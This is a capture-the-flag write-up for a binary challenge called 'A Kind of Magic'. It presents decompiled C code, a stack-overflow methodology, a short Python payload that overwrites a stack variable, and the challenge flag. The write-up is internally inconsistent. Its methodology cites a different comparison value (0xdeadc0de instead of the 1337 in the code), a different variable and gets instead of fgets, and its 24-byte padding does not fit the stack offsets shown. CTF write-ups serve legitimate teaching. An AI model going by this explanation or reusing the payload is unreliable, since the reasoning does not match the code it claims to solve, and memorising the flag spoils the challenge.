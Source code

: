 # Challenge name: A Kind of Magic

### Description
You're a magic man aren't you? Well can you show me?

## Decompiled code
```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[44]; // [rsp+10h] [rbp-30h] BYREF
  unsigned int v5; // [rsp+3Ch] [rbp-4h]

  v5 = 0;
  puts("Is this a kind of magic? What is your magic?: ");
  fflush(_bss_start);
  fgets(s, 64, stdin);
  printf("You entered %s\n", s);
  printf("Your magic is: %d\n", v5);
  fflush(_bss_start);
  if ( v5 == 1337 )
  {
    puts("Whoa we got a magic man here!");
    fflush(_bss_start);
    system("cat flag.txt");
  }
  else
  {
    puts("You need to challenge the doors of time");
    fflush(_bss_start);
  }
  return 0;
}
```

### Methodology
From the code, we can see that `v5` is set to 0 but in line 11 it check `if v5 == 3735929054`, user's input is `v4` and the program use `gets` which is not check the input. So this challenge is a stackoverflow challenge.

## Exploit

![image](https://user-images.githubusercontent.com/69805864/134918553-62e3748f-ebe1-44e5-876e-73b323f08593.png)
 Via the assembly code above, we have a stack like this:
 
 ![image](https://user-images.githubusercontent.com/69805864/134919113-6398147e-1f48-48b9-9f80-7a02a17d0a72.png)

So our input should be have first 24 bytes for padding and last 8 bytes to override `v5` which is `\xde\xc0\xad\xde\x00\x00\x00\x00` because linux use little endian.

### Exploit code

```
exploit = "0"*24
exploit += "\xde\xc0\xad\xde\x00\x00\x00\x00"
print(exploit)
print("cat flag.txt")
```

Run the code and we wil get the flag
![image](https://user-images.githubusercontent.com/69805864/134920984-789b16d3-e0f5-4ec5-8af0-9a1decd12873.png)

## Flag
DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}



# ==========================================================================================
